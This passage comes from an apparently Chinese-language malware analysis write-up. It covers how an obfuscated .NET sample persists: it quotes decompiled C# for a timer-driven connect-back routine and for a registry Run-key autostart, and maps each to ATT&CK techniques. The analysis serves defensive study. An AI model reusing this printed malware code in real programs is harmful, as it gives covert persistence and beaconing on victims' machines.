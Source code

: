             this.dlrarhsivais_working = false;
            this.dlrarhsivacapScreen = false;
        }
        this.dlrarhsivaiswitch = false;
    }
    ```
    :::
### 常駐方式
1. 根據Any.Run的ATT&CK Matrix以及我自己分析的結果，看到他使用timer這個方式當作persisten的手法，當do_start() method啟動之後，隔一段時間就會觸發連線，並且每隔一段時間就會重新檢查connection(雖然Any.Run沒有看出來)，所以我猜這個手法對應的[ATT&CK ID應該是T1053.006](https://attack.mitre.org/techniques/T1053/006/)
    ```csharp!
    public void dlrarhsivado_start()
    {
        DLAONIF.dlrarhsivaport = DLAONIF.ports[0];
        this.dlrarhsivaUPC = new MLRLEINF();
        this.dlrarhsivaCMD = new OLRDMR(this);
        this.dlrarhsivaHD.iserver = this;
        this.dlrarhsivaHD.dlrarhsivamainPath = DLAONIF.dlrarhsivaget_mpath();
        TimerCallback callback = new TimerCallback(this.dlrarhsivalookup_connect);
        System.Threading.Timer dlrarhsivatimer = new System.Threading.Timer(callback, this.dlrarhsivaStateObj, 31280, 37420);
        this.dlrarhsivaStateObj.dlrarhsivatimer = dlrarhsivatimer;
    }
    ```
2. 另外，無意間用Autorun發現他有把`Hdlharas\dlrarhsiva.exe`註冊到registry中，這也是常見的套路，以ATT&CK的framework來說，應該是[T1547.001](https://attack.mitre.org/techniques/T1547/001/)(Any.Run還是沒有看出來)，詳細的code如下
    ![圖片](https://hackmd.io/_uploads/rygmHumT6.png)
    ```csharp!
    public static void dlrarhsivaset_run(string app, string path)
    {
        try
        {
            string name = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run|dlrarhsiva".Split(new char[]
            {
                '|'
            })[0];
            RegistryKey registryKey = Registry.CurrentUser.OpenSubKey(name, true);
            string str = DLAONIF.dlrarhsivapc_id;
            object value = registryKey.GetValue(str + app);
            if (value == null)
            {
                registryKey.SetValue(str + app, path);
            }
            else if (value.ToString() != path)
            {
                registryKey.SetValue(str + app, path);
            }
        }
        catch
        {
        }
    }
    ```
    這是在`DLAONIF`這個module中，主要會由`MLREDM/dlrarhsivaload_app`這個method呼叫到，對應倒的指令是==dlrarhsiva-putsrt==
    ![圖片](https://hackmd.io/_uploads/SJqMqdXa6.png)
